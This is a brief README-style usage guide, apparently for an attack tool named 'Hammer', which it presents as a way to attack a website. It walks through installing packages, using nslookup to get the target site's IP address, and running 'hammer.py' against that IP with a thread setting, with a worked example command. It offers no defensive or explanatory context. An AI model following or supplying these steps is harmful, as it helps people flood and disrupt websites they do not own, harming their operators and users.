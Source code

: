 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>

Hammer need <b>Name Server</b> of that website which you want to attack...
$ nslookup example.com  (to Get IP Address of Website)
Note the IP Address of that Website

And then 
$ cd Hammer
$ python hammer.py -s [ip Address] -t 135
example 
$ python hammer.py -s 123.45.67.89 -t 135

Video Tutorial:
How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)
